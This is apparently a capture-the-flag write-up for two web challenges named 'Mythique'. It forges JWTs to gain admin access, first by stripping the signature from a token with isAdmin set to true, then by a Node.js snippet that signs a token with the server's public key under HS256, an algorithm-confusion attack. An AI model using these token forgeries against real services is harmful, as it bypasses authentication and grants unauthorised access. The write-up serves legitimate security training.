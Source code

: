 
  

#  Mythique 

The first step I made to get the flag was took the JWT and paste in jwt.io.
I understood it was ineluctable to set isAdmin at true and conserving the same data structure of the token.

### Mythique 1
In this exercises I took the token in my browser and paste it into https://dinochiesa.github.io/jwt/.
I changed isAdmin to true and past the one and second element in my browser.
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJleHAiOjE2NzExMTg2MjgsImRhdGEiOnsibmFtZSI6IlBhdGF0ZSBIYWJpbGUiLCJpc0FkbWluIjp0cnVlfSwiaWF0IjoxNjcxMTE1MDI4fQ.
FIRST.SECOND.~~THIRD~~
FIRST.SECOND.
Then go on the page https://mythique1.secu-web.blackfoot.dev/flag and the flag appear.

### Mythique 2
I understood at the beginning it was mandatory to recreate a token from the public key gave from the page.

After some search I find a similar CTF on google and the explication to solve this was to brain the server by signing a token with the public key in another algorithm. 
https://github.com/karma9874/CTF-Writeups/blob/master/Dark-PreCTF/Web-3.md
On the web page the algorithm was RS and my code is using HS algorithm.

```js
const  jwt = require('jsonwebtoken')
let  fs = require('fs')
let  publicKey = fs.readFileSync('./serverkey.pub');
let  token = jwt.sign({"data": {"name":  "Nuage :)","isAdmin":  true},"iat":  1671114339}, publicKey, { algorithm:  'HS256', noTimestamp:  true });
console.log(token)
```


  